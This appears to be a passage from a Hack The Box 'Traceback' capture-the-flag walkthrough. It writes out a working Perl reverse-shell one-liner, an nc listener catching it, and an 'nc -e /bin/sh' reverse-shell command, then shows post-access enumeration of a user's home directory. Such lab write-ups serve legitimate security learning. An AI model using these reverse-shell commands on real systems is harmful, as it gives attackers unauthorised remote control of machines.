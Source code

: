 ## Attacks and Exploits

### Getting a shell

This web shell has many features including reading and writing files. But it's more familiar to work from the terminal.

Using the **Execute** function (bottom left hand), let's try for a reverse shell using Perl.

`perl -e 'use Socket;$i="10.10.X.X";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Catch the shell with a reverse handler:

```
root@kali:~/htb/traceback# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.181] 38892
/bin/sh: 0: can't access tty; job control turned off
$ whoami
webadmin
```

Although the web shell shows that nc is available, the execute (-e) flag is apparently disabled. So a reverse shell like `nc -e /bin/sh 10.10.X.X 8888` will not work. I tried using nc with pipes but despite getting a connection, I could not get the shell to work properly. [More information on lack of execute flag and workaround.](https://manned.org/nc.openbsd/6f0a5cf9)

### Abusing user rights

As we look for the user flag for *webadmin*, we immediately find that something is off. There's no user.txt.

```
$ cd /home/webadmin
$ ls -al
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 23:40 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Mar 16 23:40 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

Instead, we find a note.txt from sysadmin.

```
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
